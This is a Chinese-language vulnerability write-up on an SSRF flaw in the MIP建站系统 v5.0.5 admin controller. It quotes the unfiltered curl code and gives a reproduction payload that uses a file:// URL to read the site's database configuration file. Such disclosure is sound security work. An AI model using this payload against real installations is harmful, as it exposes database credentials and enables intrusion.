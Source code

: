MIP建站系统 v5.0.5 SSRF漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MIP建站系统 v5.0.5

三、复现过程
------------

### 漏洞分析

进行简单的漏洞分析。根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php受影响代码：

    public function urlPost(Request $request) {
            $postAddress = input('post.postAddress');
            if (!$postAddress) {
                return jsonError('请先去设置推送的接口');
            }
            $api = trim($postAddress);
            if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
                if (!config('siteInfo')['guanfanghaoStatus']) {
                    return jsonError('检测到您未开启熊掌号，请开启后再推送');
                }
            }
            $url = input('post.url');
            $id = input('post.id');
            if (!$url) {
                return jsonError('没有检测到你推送的页面地址');
            }   
            $urls[] = $url;
            $ch = curl_init();
            $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options);
            $result = curl_exec($ch);

流程分析：

    1、$ postAddress = input('post.postAddress');  
        //POST方法将$postAddress参数传入

    2、$api = trim($postAddress);    
    $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options); 
        //赋予$api参数，一直至$ch，未进行任何过滤
    3、$result = curl_exec($ch);    
        //最后执行

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

    http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
    POST方法进行请求，payload：  
    postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test

![](/Users/aresx/Documents/VulWiki/.resource/MIP建站系统v5.0.5SSRF漏洞/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7431
